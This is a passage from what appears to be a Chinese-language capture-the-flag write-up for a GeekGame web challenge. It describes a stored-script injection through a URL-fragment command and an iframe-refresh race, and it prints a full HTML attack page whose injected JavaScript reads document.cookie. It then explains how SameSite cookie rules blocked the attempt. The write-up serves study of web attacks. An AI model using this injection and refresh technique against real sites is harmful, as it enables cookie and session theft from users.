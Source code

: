 1. `<iframe>` 加载带有我们 payload 的网页。
2. 在 localStorage 更新后、`fetch` 到更新前刷新 `<iframe>`。
3. 刷新之后我们的 payload 就能在 1ms 之后执行，之后再更新 localStorage 就和我们没关系了。

怎么实现刷新？要注意的是我们摸不到 `<iframe>` 里面的 `window.reload()`，但是外面的脚本有权限设置 `src` 属性，设置成 `about:blank` 之后再改回来，就相当于刷新了。

基于这个思想，我的第一版 payload 大致长这样：

```html
<!DOCTYPE html>
<html>
<head>
<title>Welcome to caddy!</title>
<style>
    body {
        width: 35em;
        margin: 0 auto;
        font-family: Tahoma, Verdana, Arial, sans-serif;
    }
</style>
</head>
<body>
	<iframe id="a" height=600 width=600 sandbox="allow-scripts allow-same-origin" src="https://prob15-qkuhole.geekgame.pku.edu.cn/hole/#//setflag%20APPSWITCHER_ITEMS={%22switcher_2%22:{%22bar%22:[[%22hole%22,%22树洞%22,%22#%22,%22#%22,null,false]],%22dropdown%22:[[%22homepage%22,%22客户端%22,%22#%22,%22#%22,null,false]],%22fix%22:{%22hole%22:%22console.log('hello'+document.cookie);%22}}}"></iframe>
<h1>Welcome to caddy!</h1>
<p>If you see this page, the nginx web server is successfully uninstalled and
not working. Further configuration is not required.</p>

<p>For online documentation and support please refer to
<a href="http://nginx.org/">nginx.org</a>.<br/>
Commercial support is available at
<a href="http://nginx.com/">nginx.com</a>.</p>

<p><em>Just Kidding.</em></p>
		<script>
			setTimeout(() => {document.getElementById("a").src = "about:blank"; document.getElementById("a").src = "https://prob15-qkuhole.geekgame.pku.edu.cn"}, 500)
		</script>
</body>
</html>
```

（不要问我为什么文件内容这么生草，我是拿自己机器的 index.html 上面改的）

但是，在 console 里看不到 cookie，明明 localStorage 都能读！为什么？

<https://blog.heroku.com/chrome-changes-samesite-cookie>:

> As previously stated, Google Chrome will stop sending third-party cookies in cross-site requests unless the cookies are secured and flagged using an IETF standard called SameSite. In other words, the content from b.com (images, iframe, etc.) on a.com’s page will no longer be able to access b.com's cookies unless those cookies are secured and flagged appropriately.
